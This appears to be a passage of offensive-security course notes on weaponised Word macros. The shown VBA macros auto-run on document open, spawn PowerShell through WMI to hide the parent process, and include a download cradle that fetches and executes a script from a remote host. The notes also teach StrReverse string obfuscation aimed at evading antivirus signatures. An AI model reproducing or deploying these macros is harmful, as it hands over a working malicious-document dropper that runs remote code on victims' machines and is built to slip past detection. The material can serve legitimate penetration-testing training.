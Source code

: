 ```vbnet
Sub MyMacro()
  strArg = "powershell"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

📌 **Result:**

- PowerShell runs under **WmiPrvSE.exe**, not Word.
    
    <img width="855" height="342" alt="image" src="https://github.com/user-attachments/assets/2fd737dc-0aa4-4d5f-bfb0-33a441bee606" />

    
- Still flagged (7 AVs) due to **unobfuscated download cradle**.
    
    ```visual-basic
    Sub MyMacro
      strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
      GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
    End Sub
    
    Sub AutoOpen()
        Mymacro
    End Sub
    
    ```
    

## **Obfuscating VBA**

### Why?

- Detection is **signature-based** → plain text strings (`powershell`, `http://...`, `winmgmts`) are flagged.
- **Goal**: Evade **signature-based detection** by obfuscating clear-text strings.
- **Targets** for obfuscation:
    - PowerShell cradle.
    - WMI connection string (`winmgmts:`).
    - WMI class name (`Win32_Process`).

### Simple Obfuscation – `StrReverse`

- Reverse all strings, restore with `StrReverse`.
    
    ```visual-basic
    Sub MyMacro()
      Dim strArg As String
      strArg = StrReverse("))'txt.nur/...//:ptth'(gnirtsdaolnwod...)")
    
      GetObject(StrReverse(":stmgmniw")).Get(StrReverse("ssecorP_23niW")).Create strArg, Null, Null, pid
    End Sub
    ```
    
